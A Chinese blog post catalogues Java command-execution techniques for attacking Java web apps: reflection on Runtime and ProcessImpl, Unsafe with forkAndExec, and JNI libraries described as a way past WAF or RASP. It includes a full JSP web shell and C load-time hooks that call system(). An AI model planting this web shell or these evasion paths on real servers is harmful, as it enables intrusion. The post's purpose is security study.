



+++
date = '2025-12-30T15:27:00+08:00'
title = '总结一下Java中的命令执行'
categories = ["Java"]
tags = ["Javasec", "Web","Java"]

+++

> 参考文章：
>
> [本地命令执行 · 攻击Java Web应用-[Java Web安全]](https://www.javasec.org/javase/CommandExecution/)
>
> [常用java代码(trick)备忘录](https://pankas.top/2023/12/11/常用java代码-trick-备忘录/#forkAndExec命令执行-Unsafe-反射-Native方法调用)
>
> [浅谈Java-JNI如何加载动态库时直接执行恶意代码-先知社区](https://xz.aliyun.com/news/16528)

一直没有怎么对学过的知识进行一下总结，那就先从简单的开始，总结一下在Java中命令执行的一些方式和trick吧

## Runtime

```java
Runtime runtime = Runtime.getRuntime();
runtime.exec("calc");
```

### 反射调用Runtime

```java
Class runtimeclazz = Class.forName("java.lang.Runtime");
Method getRuntime = runtimeclazz.getMethod("getRuntime");
Runtime runtime = (Runtime) getRuntime.invoke(null);
Method exec = runtimeclazz.getMethod("exec", String.class);
exec.invoke(runtime, "calc");
```

Runtime.exec 的调用链如下




可知比Runtime更加底层的命令执行方式还有三个，分别是ProcessBuilder，ProcessImpl，以及native方法forkAndExec

## ProcessBuilder

Windows

```java
ProcessBuilder processBuilder = new ProcessBuilder("cmd","/c","calc");
processBuilder.start();
```

Linux

```java
ProcessBuilder processBuilder = new ProcessBuilder("bash","-c","calc");
processBuilder.start();
```


### 反射调用ProcessBuilder

```java
Class<?> pbclazz = Class.forName("java.lang.ProcessBuilder");
Constructor<?> constructor = pbclazz.getConstructor(String[].class);
ProcessBuilder pb = (ProcessBuilder) constructor.newInstance((Object) new String[]{"cmd.exe", "/c", "calc"});
Method start = pbclazz.getMethod("start");
start.invoke(pb);
```


## ProcessImpl/UNIXProcess

在JDK9， UNIXProcess被合并到了ProcessImpl

Windows

```java
String [] cmd={"cmd.exe","/c","calc"};
Class processimpl=Class.forName("java.lang.ProcessImpl");
java.lang.reflect.Method m1=processimpl.getDeclaredMethod("start", String[].class, java.util.Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
m1.setAccessible(true);
Process p=(Process) m1.invoke(processimpl,cmd,null,null,null,false);
```

Linux

```java
String [] cmd={"bash","-c","whoami"};
Class processimpl=Class.forName("java.lang.ProcessImpl");
java.lang.reflect.Method m1=processimpl.getDeclaredMethod("start", String[].class, java.util.Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
m1.setAccessible(true);
Process p=(Process) m1.invoke(processimpl,cmd,null,null,null,false);
```

### 反射调用ProcessImpl

```java
Class<?> piclazz = Class.forName("java.lang.ProcessImpl");
Method start = piclazz.getDeclaredMethod("start", String[].class,Map.class,String.class,ProcessBuilder.Redirect[].class,boolean.class);
start.setAccessible(true);
start.invoke(null,new String[]{"cmd.exe", "/c", "calc"},null,null,null,false);
```


## forkAndExec命令执行-Unsafe+反射+Native方法调用

1. 使用`sun.misc.Unsafe.allocateInstance(Class)`特性可以无需`new`或者`newInstance`创建`UNIXProcess/ProcessImpl`类对象。
2. 反射`UNIXProcess/ProcessImpl`类的`forkAndExec`方法。
3. 构造`forkAndExec`需要的参数并调用。
4. 反射`UNIXProcess/ProcessImpl`类的`initStreams`方法初始化输入输出结果流对象。
5. 反射`UNIXProcess/ProcessImpl`类的`getInputStream`方法获取本地命令执行结果(如果要输出流、异常流反射对应方法即可)。

参考：[sun.misc.Unsafe · 攻击Java Web应用-[Java Web安全]](https://www.javasec.org/javase/Unsafe/)

Unsafe可以在不调用构造函数的情况下去创建一个实例

```Java
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class main {
    public static byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }
    public static void main(String[] args) throws NoSuchMethodException, ClassNotFoundException, InvocationTargetException, IllegalAccessException, NoSuchFieldException, InstantiationException {
//        String [] cmd={"bash","-c","gnome-calculator"};
//        Class processimpl=Class.forName("java.lang.ProcessImpl");
//        java.lang.reflect.Method m1=processimpl.getDeclaredMethod("start", String[].class, java.util.Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
//        m1.setAccessible(true);
//        Process p=(Process) m1.invoke(processimpl,cmd,null,null,null,false);

        String[] strs ={"bash","-c","gnome-calculator"};

        byte[][] argss = new byte[strs.length - 1][];
        int size = argss.length; // For added NUL bytes

        for (int i = 0; i < argss.length; i++) {
            argss[i] = strs[i + 1].getBytes();
            size += argss[i].length;
        }


        byte[] argBlock = new byte[size];

        int    i        = 0;

        for (byte[] arg : argss) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);

        Class processclazz;
        try {
            processclazz = Class.forName("java.lang.UNIXProcess");
        } catch (ClassNotFoundException e) {
            processclazz = Class.forName("java.lang.ProcessImpl");
        }
        Object process = unsafe.allocateInstance(processclazz);

        int[] envc                 = new int[1];
        int[] std_fds              = new int[]{-1, -1, -1};
        Field launchMechanismField = processclazz.getDeclaredField("launchMechanism");
        Field helperpathField      = processclazz.getDeclaredField("helperpath");
        launchMechanismField.setAccessible(true);
        helperpathField.setAccessible(true);
        Object launchMechanismObject = launchMechanismField.get(process);
        byte[] helperpathObject      = (byte[]) helperpathField.get(process);

        int ordinal = (int) launchMechanismObject.getClass().getMethod("ordinal").invoke(launchMechanismObject);

        Method forkMethod = processclazz.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });
        forkMethod.setAccessible(true);
        int pid = (int) forkMethod.invoke(process, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, argss.length,
                null, envc[0], null, std_fds, false
        });

    }

}

```

Jsp示例：

```JAVA
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.Unsafe" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }


%>
<%
    String[] strs = request.getParameterValues("cmd");

    if (strs != null) {
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);

        Class processClass = null;

        try {
            processClass = Class.forName("java.lang.UNIXProcess");
        } catch (ClassNotFoundException e) {
            processClass = Class.forName("java.lang.ProcessImpl");
        }

        Object processObject = unsafe.allocateInstance(processClass);

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[strs.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc                 = new int[1];
        int[] std_fds              = new int[]{-1, -1, -1};
        Field launchMechanismField = processClass.getDeclaredField("launchMechanism");
        Field helperpathField      = processClass.getDeclaredField("helperpath");
        launchMechanismField.setAccessible(true);
        helperpathField.setAccessible(true);
        Object launchMechanismObject = launchMechanismField.get(processObject);
        byte[] helperpathObject      = (byte[]) helperpathField.get(processObject);

        int ordinal = (int) launchMechanismObject.getClass().getMethod("ordinal").invoke(launchMechanismObject);

        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限

        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });

        // 初始化命令执行结果，将本地命令执行的输出流转换为程序执行结果的输出流
        Method initStreamsMethod = processClass.getDeclaredMethod("initStreams", int[].class);
        initStreamsMethod.setAccessible(true);
        initStreamsMethod.invoke(processObject, std_fds);

        // 获取本地执行结果的输入流
        Method getInputStreamMethod = processClass.getMethod("getInputStream");
        getInputStreamMethod.setAccessible(true);
        InputStream in = (InputStream) getInputStreamMethod.invoke(processObject);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        int                   a    = 0;
        byte[]                b    = new byte[1024];

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        out.println("<pre>");
        out.println(baos.toString());
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

## 命令执行的回显

### JDK8及以下

```Java
Process process = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", "whoami"});
InputStream in =  process.getInputStream();
BufferedReader br = new BufferedReader(new InputStreamReader(in));
String line;
StringBuilder sb = new StringBuilder();
while ((line = br.readLine()) != null) {
    sb.append(line).append("\n");
}
String str = sb.toString();
System.out.println(str);
```

### JDK8以上

jdk9以后InputStream新增了readAllBytes方法，能够一次性把所有的字节都读完。

```java
Process process = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", "whoami"});
String result = new String(process.getInputStream().readAllBytes());
System.out.println(result);
```

### 通用回显(Scanner)

```java
Process process = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/c", "whoami"});
InputStream in =  process.getInputStream();
Scanner s = new Scanner(in).useDelimiter("\\a");
String output = s.hasNext() ? s.next() : "";
System.out.println(output);
```


## JNI命令执行

JNI（Java Native Interface）是Java平台提供的一种机制，允许Java代码与用其他语言（如C、C++）编写的应用程序和库进行交互。我们可以利用JNI调用我们用C编写的恶意Native方法，实现命令执行，从而绕过一些waf或是RASP。

JNI详细参考：[Java Native Interface (JNI) - Java Programming Tutorial](https://www3.ntu.edu.sg/home/ehchua/programming/java/JavaNativeInterface.html)

### C Program

#### 编译命令

linux

```
gcc -fPIC -I $JAVA_HOME/include  -I $JAVA_HOME/include/linux -shared -o libcmd.so EvilClass.c
```

windows

```
gcc -fPIC -I "%JAVA_HOME%\include" -I "%JAVA_HOME%\include\win32" -shared -o libcmd.dll EvilClass.c
```

#### 通用

##### JNI_OnLoad

```c
#include <stdlib.h>
#include <jni.h>
JNIEXPORT jint JNICALL JNI_OnLoad(JavaVM *vm, void *reserved) {
    system("calc");
    return JNI_VERSION_1_8;
}
```

##### \_\_attribute\_\_((constructor))

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) Evilclazz() {
    system("calc");
}
```

#### Windows

##### DLLMain

```c
#include <Windows.h>
#include <stdlib.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)

{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

        // 在DLL加载时执行特定代码

        system("calc");
        break;

    case DLL_PROCESS_DETACH:

        // 在DLL卸载时执行特定代码
        break;

    case DLL_THREAD_ATTACH:

        // 在线程连接到DLL时执行特定代码
        break;

    case DLL_THREAD_DETACH:

        // 在线程从DLL断开时执行特定代码
        break;
    }
    return TRUE;
}
```


### 加载动态链接库

在Java中一般使用`System.load`和`System.loadLibrary`加载编译好的库文件

- 加载的路径不同：System.load(String filename)是指定动态库的完整路径名；而System.loadLibrary(String libname)则只会从java.library.path指定的路径中查找，并加上lib前缀和.so后缀；
- 自动加载库的依赖库的不同：System.load(String filename)不会自动加载依赖库；而System.loadLibrary(String libname)会自动加载依赖库。

#### System.loadLibrary

```Java
System.loadLibrary("libcmd");
```

loadLibrary的调用链如下




我们通样也是可以尝试使用更加底层的调用

#### Runtime.loadLibrary

```java
Runtime.getRuntime().loadLibrary("libcmd");
```

#### Runtime.loadLibrary0

```java
Runtime runtime = Runtime.getRuntime();
Class runtimeClass = runtime.getClass();
Method loadLibrary0 = runtimeClass.getDeclaredMethod("loadLibrary0", Class.class, String.class);
loadLibrary0.setAccessible(true);
loadLibrary0.invoke(runtime, main.class, "libcmd");
```

#### ClassLoader.loadLibrary

```java
Class clazzloader = Class.forName("java.lang.ClassLoader");
Method loadLibrary = clazzloader.getDeclaredMethod("loadLibrary", Class.class, String.class, boolean.class);
loadLibrary.setAccessible(true);
loadLibrary.invoke(null, main.class, "libcmd", false);
```

OR

```java
Class clazzloader = Class.forName("java.lang.ClassLoader");
Method loadLibrary = clazzloader.getDeclaredMethod("loadLibrary", Class.class, String.class, boolean.class);
loadLibrary.setAccessible(true);
loadLibrary.invoke(null, main.class, "C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll", true);
```

#### ClassLoader.loadLibrary0

```java
Class clazzloader = Class.forName("java.lang.ClassLoader");
Method loadLibrary = clazzloader.getDeclaredMethod("loadLibrary0", Class.class, File.class);
loadLibrary.setAccessible(true);
loadLibrary.invoke(null, main.class, new File("C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll"));
```

#### ClassLoader$NativeLibrary.load

```java
Class<?> nativelib = Class.forName("java.lang.ClassLoader$NativeLibrary");
Constructor<?> nativelibConstructor = nativelib.getConstructor(Class.class, String.class, boolean.class);
nativelibConstructor.setAccessible(true);
Object nativeLibrary = nativelibConstructor.newInstance(main.class, "xrntkk", true);
Method load = nativelib.getDeclaredMethod("load", String.class, boolean.class);
load.setAccessible(true);
load.invoke(nativeLibrary, "C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll", false);
```


#### System.load

```java 
System.load("C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll");
```

load的调用链如下




#### Runtime.load

```java
Runtime runtime = Runtime.getRuntime();
runtime.load("C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll");
```

#### Runtime.load0

```java
Runtime runtime = Runtime.getRuntime();
Class runtimeClass = runtime.getClass();
Method loadLibrary0 = runtimeClass.getDeclaredMethod("load0", Class.class, String.class);
loadLibrary0.setAccessible(true);
loadLibrary0.invoke(runtime, main.class, "C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll");
```


#### Unsafe+NativeLibrary

```java
Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
theUnsafeField.setAccessible(true);
Unsafe unsafe = (Unsafe) theUnsafeField.get(null);
Class<?> nativelib = Class.forName("java.lang.ClassLoader$NativeLibrary");
Object nativeLibrary = unsafe.allocateInstance(nativelib);
Method load = nativelib.getDeclaredMethod("load", String.class, boolean.class);
load.setAccessible(true);
load.invoke(nativeLibrary, "C:\\Users\\Xrntkk\\IdeaProjects\\RCETest\\libcmd.dll", false);
```

